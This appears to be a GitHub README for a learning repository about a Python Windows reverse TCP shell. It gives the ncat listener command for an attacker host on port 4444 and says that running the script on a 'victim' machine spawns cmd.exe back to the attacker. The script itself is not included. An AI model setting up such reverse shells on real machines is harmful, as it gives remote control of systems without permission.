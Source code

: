 # advance_python_learning

Advance c learning for system driver development & reverse engineering

## Topics

- windows_reverse_tcp_shell spwan cmd.exe -
  - This connects to server IP on specific port.

## Prerequisites
- python 3 - https://www.python.org/downloads/
- Ncat - https://nmap.org/ncat/

## Usages

- Ncat attacker server listeninig on a port eg: here (192.168.1.9) is controlled by attacker and listening incoming to incoming requests on port 4444, below is cmd which creates listner
    - ncat.exe -lvnp 4444


- On execute `python windows_reverse_tcp_shell.py` on client/victim machine it will spawn cmd.exe shell to victim, Bang!

## POC video

[![Watch the video](windows_reverse_tcp_shell.PNG)](windows_reverse_tcp_shell.mp4)